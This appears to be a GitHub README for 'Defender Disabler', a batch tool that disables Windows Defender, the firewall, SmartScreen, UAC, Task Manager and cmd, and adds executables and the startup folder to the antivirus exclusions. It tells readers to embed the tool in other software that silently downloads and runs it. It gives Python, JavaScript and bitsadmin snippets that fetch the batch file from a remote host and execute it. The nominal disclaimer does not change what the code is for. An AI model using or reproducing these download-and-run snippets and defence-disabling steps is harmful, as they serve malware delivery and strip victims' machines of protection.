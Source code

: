<h1 align="center">
  Defender Disabler ➰
</h1>

<p align="center">
  Destroy Windows Defender so hard that it doesn't even know it exists anymore
</p>

<p align="center">
  <kbd>
    <img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/defender-disabler.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Defender-disabler&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Defender-disabler?color=5ac18e&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Defender-disabler?color=5ac18e&label=Forks&style=flat-square"/>
</p>

<h2 align="center">
  Defender-disabler was made by

Love ❌ code ✅

</h2>

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Using defender-disabler](#setup)
- [🌱・Inspiration/Credits](#credits)
- [❕・Warning](#warn)

## <a id="features"></a>🔰 〢 Features

```
> Disables Windows Defender completely
> Disables Automatic Sample Submission and Quickscan
> Disables Windows FireWall, Smart Screen, and other security features
> Disables important security settings such as Real-time and Ransomware protection, AntiSpyware, BehaviorMonitoring,  etc..
> Adds .exe and .bat files as exclusions and the startup folder as exclusions
> Disables UAC (Reboot Required)
> Disables TaskManager, Registrytools, cmd, run
> + More!
```

## <p align="left"><img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/Screenshot%202021-10-14%20162401.png">

---

## <a id="setup"></a> 📁 〢 Using defender-disabler

First off you need to figure out if you want to use this program alone or use it in some other software that downloads and runs it.

1. Compiling the program
   There are multiple ways of compiling a batch file,

   - [Converting Batch file to Exe via IExpress](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_file_to_EXE_via_IExpress)
     - [Converting Batch Scripts to Exe with Bat To Exe Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_with_Bat_To_Exe_Converter)
       - [Converting Batch Scripts to Exe via Advanced BAT to EXE Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_via_Advanced_BAT_to_EXE_Converter)
<br>
2. Implementing it in your software
   Depending on what language you're using, it will require different ways of implementing it.
  
   Here are some examples:

- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('demo.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('demo.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('demo.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat "demo.bat"
start demo.bat
```

## <a id="warn"></a> ❕ 〢 Warning 
  Running this program will completely disable Windows Defender. This program was not made to be used for any malicious purposes.
  If you now accidently ran this program on your main pc instead of a vm, reverting the changes will be hard but most of them can be fixed by runnig [enabler.bat](https://github.com/Rdimo/Defender-disabler/blob/main/enabler.bat) as admin

## <a id="credits"></a> 🌱 〢 Inspiration/Credits
  Most of the code is taken from [swagkarna](https://github.com/swagkarna) and his [Defender-disabler](https://github.com/swagkarna/Defeat-Defender-V1.2)
  This one is just more smoother, improved, more user friendly and has more features.


  <br>

<p align="center">
  By using Defender Disabler, you agree that you hold responsibility and accountability of any consequences caused by your actions
<br>
  <a href=#top>Back to Top</a>
</p>
